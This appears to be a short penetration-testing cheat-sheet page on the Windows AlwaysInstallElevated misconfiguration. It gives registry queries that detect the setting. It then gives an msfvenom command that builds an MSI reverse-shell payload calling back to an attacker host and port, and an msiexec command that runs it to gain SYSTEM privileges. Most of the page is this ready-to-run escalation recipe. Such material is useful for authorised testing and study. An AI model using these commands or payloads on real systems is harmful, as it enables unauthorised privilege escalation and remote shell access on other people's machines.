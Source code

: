 # AlwaysInstallElevated

If the registers that we query are both as 0x1 then we are able to install .msi as NT/authority system.&#x20;

### Detection:&#x20;

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Exploitation

Generate an MSI reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.65 LPORT=445 -f msi > notavirus.msi
```

Execute it:

```
msiexec /i "C:\Path\TO\malicous.msi"
```

![](<../../../.gitbook/assets/image (67).png>)
